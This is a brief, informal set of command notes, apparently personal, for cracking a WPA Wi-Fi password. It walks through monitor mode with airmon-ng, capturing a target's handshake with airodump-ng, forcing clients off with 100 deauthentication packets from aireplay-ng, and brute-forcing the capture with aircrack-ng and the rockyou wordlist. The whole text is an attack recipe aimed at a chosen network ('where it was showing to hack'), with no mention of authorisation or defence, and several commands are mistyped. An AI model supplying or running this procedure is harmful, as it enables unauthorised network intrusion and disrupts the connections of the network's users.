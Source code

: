 iwconfig for checking

enable

 airmon-ng start wlan0

airmon-ng start wlan0

sudo kill all with id

 now do iwconfig

airodump -ng wlan0mon

airodump -ng -c 6 --bssid bssid wher it was showing to hack -w pas wlan0mon

new terminal

aireplay-ng -0 100 -a  bssid wlan0mon

now go back to terminal previous

after both stop ctrl c

next locate file

locate rockyou

gunzip (paste last with txt.gz)

ls

to check and get the pass file with cap

next

aircrack-ng -w /usr/share/wordlists/rockyou.txt -b bssid pass*.cap file name

after words key found

 
